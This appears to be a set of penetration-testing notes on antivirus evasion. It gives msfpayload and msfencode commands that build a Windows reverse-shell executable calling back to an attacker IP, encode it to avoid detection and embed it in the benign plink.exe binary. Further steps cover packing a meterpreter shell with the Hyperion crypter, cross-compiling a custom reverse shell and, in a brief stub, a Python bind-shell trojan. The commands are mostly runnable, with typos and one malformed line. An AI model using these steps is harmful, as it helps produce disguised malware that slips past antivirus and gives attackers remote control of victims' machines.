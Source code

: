 **Anti-Virus Avoidance:**

Employe black list technology:  know signatures of malware are searched in the files, system and get quarantined if found 

* Create standard payload using MSFconsole : 

```
msfpayload windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=444 X > ~/Desktop/shell_reverse.exe
```

*  Encode the payload  \(Detection of payload is less as it is encoded\):

```
msfpayload windows/shell_reverse_tcp LHOST=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -o ~/Deskstop/shell_reverse_msf_encoded.exe
```

* Embedding payload into non malicious PE executable

```
msfpayload windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=44 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -x /usr/share/windows-binaries/plink.exe -o ~/Desktop/shell_reverse_msf_encoded_embedded.exe
```

**Packers and Crypters:**

Software protection tools and crypters are often used to obfuscate to prevent reverse engineering of software.

```
cross compile :
>> i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe

Use hyperion to protect the meterpeter reverse shell
>> wine hyperion.exe ~/Desktop/crypted.exe

```

**Custom Tools:**

use tools and binaries not know to antivirus

```
i586-mingw32msvc-gcc reverse.c -o ~/Desktop/custom-reverse.exe -lws2_32
```

**Python Bind shell trojen**

Run on the port 4444 and run any command sent to this port .

cross compile using the PyInstaller

